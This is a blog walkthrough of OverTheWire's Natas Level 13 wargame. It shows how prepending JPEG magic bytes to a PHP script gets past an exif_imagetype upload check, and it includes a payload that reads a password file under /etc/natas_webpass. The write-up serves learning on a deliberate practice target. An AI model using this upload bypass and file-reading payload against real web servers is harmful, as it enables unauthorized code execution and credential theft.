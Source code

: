 ```yaml
---
title: "OverTheWire Natas Level 13"
date: "2012-11-12T06:44:00-05:00"
comments: true
highlight: "true"
categories:
 - overthewire
 - wargames
 - exif
 - natas
 - php
 - hacking
aliases:
 - "/2012/11/10/overthewire-natas-level-13"
 - "/2012/11/11/overthewire-natas-level-13"
 - "/2012/11/overthewire-natas-level-13.html"
---
```


[Level 13](http://www.overthewire.org/wargames/natas/natas13.shtml) of [OverTheWire's](http://www.overthewire.org) Natas wargame is extremely similar to Level 12. The only difference now, is that it's validating that the file is in fact an image. This however is flawed, as exif data can be faked.

<!-- more -->

It starts out with a similar upload prompt as last time.

{{% figure class="img-responsive" src="/img/natas13_1.png" %}}

The source code is super similar to last time.

```
<html> 
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head> 
<body> 
<h1>natas13</h1> 
<div id="content"> 
For security reasons, we now only accept image files!<br/><br/> 

<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

Just like last time, I saved the HTML down to my local machine, and made 2 changes, for the url, and the filename. 

```
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>


<form enctype="multipart/form-data" action="http://natas13.natas.labs.overthewire.org/index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="file.php" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

The main difference to get around the exif changing in this case, is to put the JPEG magic-bytes into the beginning of the file. I found the JPEG magic-bytes by simply googling the [JPEG](http://www.digitalpreservation.gov/formats/fdd/fdd000018.shtml) file format</a>. 

I first created a small file that contained the magic bytes. 

```
mandreko$ echo -e "\xff\xd8\xff\xe0" > jpeg_magic
```

Next, I created my PHP script to upload (same as last level, except a new file to read). 

```
<?php
$file = file_get_contents('/etc/natas_webpass/natas14');
echo "\n" . $file;
?>
```

Then to combine these files, I just used "cat". 

```
mandreko$ cat jpeg_magic upload.php > upload2.php
```

I then uploaded "upload2.php" using my local HTML form that I created.

{{% figure class="img-responsive" src="/img/natas13_2.png" %}}

Just like that, it let me past the logic to verify it was an image type. Once I clicked on the link to the uploaded file, it showed me the magic-bytes, followed by the password to the next level.

{{% figure class="img-responsive" src="/img/natas13_3.png" %}}
